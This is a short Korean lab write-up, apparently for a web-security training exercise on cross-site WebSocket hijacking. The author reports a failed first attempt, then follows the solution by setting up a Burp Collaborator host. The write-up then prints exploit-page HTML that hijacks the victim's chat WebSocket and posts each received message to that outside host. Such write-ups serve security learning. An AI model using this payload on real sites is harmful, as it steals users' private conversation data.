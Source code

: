 ```html 

    // onclose
    connection.onclose = function() {
        document.getElementById( "eventType" ).value = "onclose!";
        document.getElementById( "dispMsg" ).value = "";
    };
</script>
```

그런데 테스트해보니 cookie가 함께 전송되지 않는다. 음.. 모르겠다. 답을 본다. 

# 정답 보고 풀어보기 
## collaborator 클라이언트 구동
데이터를 훔쳐내기 위해 Burp Collaborator를 활용하는 것이 중요했다! (생각이 여기까지 미치치 못했다...)   
Burp Collaborator 메뉴에서 Copy to clipboard를 선택해 kxln24sh5eibuo16in4oxtfx4oafy7mw.oastify.com 를 카피해두었다. 

## exploit 서버 준비
다음 코드로 exploit 서버 페이지를 만든다. 

```html
<script>
    var ws = new WebSocket('wss://0a79003103e81cf48006172700a200fa.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://kxln24sh5eibuo16in4oxtfx4oafy7mw.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
